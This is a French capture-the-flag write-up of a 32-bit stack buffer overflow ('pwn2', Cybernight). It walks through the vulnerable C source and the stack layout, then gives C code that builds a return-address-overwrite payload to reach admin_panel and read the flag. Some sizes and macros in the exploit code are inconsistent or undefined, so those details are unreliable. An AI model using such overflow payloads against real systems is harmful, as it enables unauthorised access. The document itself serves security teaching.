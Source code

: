 ﻿# Challenge pwn2 Cybernight writeup

## Description du challenge
Comme dans le challenge #1, un identifiant pour se connecter à une machine nous est fourni:
```bash
ssh ctf@10.242.0.1 -p 2223
passwd: ***
```
Et comme dans le challenge 1, on retrouve:
- *control*: ELF Executable 32bit, stripped
- *control_v2.c*: Code source de control
	-  *ctf*: 
- *flag.txt*: Fichier contenant le flag (obviously), lisible par **root**

## Analyse du code
*control_v2.c*:
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define STRING_LEN 256

void select_action() {
    // User input
    char action[STRING_LEN];

    printf("### ACTION DISPATCHER ###\n");
    scanf("%s", action);

    if (!strcmp(action, "right")) {
        printf("# MOVED RIGHT\n");
    }
    else if (!strcmp(action, "left")) {
        printf("# MOVED LEFT\n");
    }
    else if (!strcmp(action, "up")) {
        printf("# MOVED UP\n");
    }
    else if (!strcmp(action, "down")) {
        printf("# MOVED DOWN\n");
    }
    else {
        printf("# UNRECOGNIZED COMMAND\n\n");
    }
}

// ADMIN section
void admin_panel() {
    printf("Bienvenue dans l'espace ADMIN !");
    setreuid(geteuid(), geteuid());
    system("/bin/bash -c 'cat ./flag.txt'");
}

int main() {
    select_action();
    return 0;
}
```
Le programme **lit un nombre indéfini de character avec scanf** depuis stdin et store l'entrée dans le buffer *char\* action[**250**]*
On observe une fonction  *admin_panel* qui lit *flag.txt*, mais la fonction n'est jamais appelée.
## Exploitation
La fonction *scanf* enregistrant un nombre indéfini de character sera notre point d'entrée pour exploiter une faille buffer overflow sur le buffer *action*.
Pour récuperer le flag, notre buffer overflow devra rediriger le programme vers la fonction *admin_panel*.

### Comment rediriger l'execution d'un programme depuis la stack ??
Tout d'abord il faut comprendre ce qu'il se passe lorsque l'introduction ``call fnc`` en assembleur est executée.

Lorsqu'une fonction est appelée, ses arguments sont poussés sur la stack dans l'ordre inverse (programme 32bit) ou les arguments sont passés par les registres (programme 64bit).

La valeur de EIP (registre contenant l'adresse de l'instruction à executer, le déroulement du programme) est *push* sur le haut de la stack avant le prélude de la fonction appelée.

Donc la valeur avant EBP (le bas de la stack de la fonction en cours d'exécution) est l'adresse que EIP prendra lorsque la fonction retournera.

Alors si on modifie [EBP + 4] (la stack va des adresses hautes, vers les adresses basses, d'où le *+*), on fera sauter l'exécution de notre programme à l'adresse modifiée lorsque la fonction sera terminée.
| STACK: | Size in byte |
---------|-------|
| [...] | [...] |
| RETURN ADDR | 4
| EBP (bas de la pile) | 4
| char action[] | 250

Il faut donc écrire l'adresse à laquelle nous voulons rediriger le programme: **action+254**

##  Écriture de l'exploit

Tout comme pour le premier challenge de pwn, je vais écrire un programme en *C* qui écrira notre buffer malvaillant dans un fichier. Il ne restera plus qu'à pipe l'exploit au programme.

### Définition des valeurs
Il faut commencer par savoir à quelle adresse sauter, on a pas de soucis à directement la récupérer dans la liste de symbole et de l'hardcoder dans l'exploit car il n'y a pas de randomisation d'adresse.
On récupère l'adresse des symboles avec ``objdump -t ./bin``.
```bash
 faco@archad $ objdump -t ./control | grep admin
08049379 g     F .text  00000059              admin_panel
```
L'adresse de la fonction *admin_panel* est  **0x08049379**.
```c
#define PADDING 250
#define PADDING_CHAR 0x41 // on rempli le padding de 'A'
#define EBP "BB" 				// On aurait pu recouvrir EBP avec n'importe quoi
#define ADDR_LEN 4			// Une addresse en 4B long pour un programme 32bit
#define PAYLOAD "\x79\x93\x04\x08" // ADDR de la fonction admin_panel en little endian
#define TOTAL_LEN 250 + ADDR * 2
```
On construit l'exploit dans un buffer de taille *TOTAL_LEN*

```c
char* buf = (char*)malloc(TOTAL_LEN);
memset(buf, PADDING_CHAR, PADDING);
memcpy(buf+PADDING, EBP, ADDR_LEN);
memcpy(buf+PADDING+ADDR_LEN, PAYLOAD, ADDR_LEN);
```
Puis on écrit *buf* dans un fichier *evil*
```c
  FILE *f = fopen(PATH, "w");
  if (!f) {
    printf("Couldn't write file to %s\n", PATH);
    return -1;
  }
  fwrite(buf, 1, PADDING+PAYLOAD_LEN, f);
  printf("Exploit written to %s\n", PATH);
```

### Exploitation
```bash
$ ssh ctf@10.242.0.1 -p 2223 'bash -c ~/control' < evil
### ACTION DISPATCHER ###
# UNRECOGNIZED COMMAND

{FLAG}
Bienvenue dans l'espace ADMIN !
```
